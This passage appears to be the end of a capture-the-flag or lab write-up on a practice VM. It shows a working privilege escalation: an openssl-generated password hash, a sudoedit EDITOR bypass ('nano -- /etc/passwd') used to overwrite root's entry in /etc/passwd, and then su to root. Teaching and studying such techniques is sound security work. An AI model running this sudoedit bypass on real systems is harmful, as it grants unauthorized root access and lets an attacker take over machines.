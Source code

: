 ```
pain@PainVM:~$openssl passwd hacked
$1$qegrIRm1$w5xZ0rk5IPW5lUVcIHXHP/
pain@PainVM:~$ EDITOR='nano -- /etc/passwd' sudoedit /var/www/html/akatsukiCMS/includes/akatsukiCMS_Config.php
sudoedit: --: editing files in a writable directory is not permitted
sudoedit: /var/www/html/akatsukiCMS/includes/akatsukiCMS_Config.php unchanged
pain@PainVM:~$ cat /etc/passwd
root:$1$qegrIRm1$w5xZ0rk5IPW5lUVcIHXHP/:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
[***]
pain@PainVM:~$ 
```
by running the above command, we were able to edit the `/etc/passwd` file and put a custom passwd hash generated by openssl for user `root`. now let's `su root` using passd `hacked` that was generated.

![image](https://user-images.githubusercontent.com/87468669/229395110-9ad770f5-46ee-4a5b-a494-e30f8aef3785.png)

Boom!!! we got root... and we are done hope you had fun. 😉
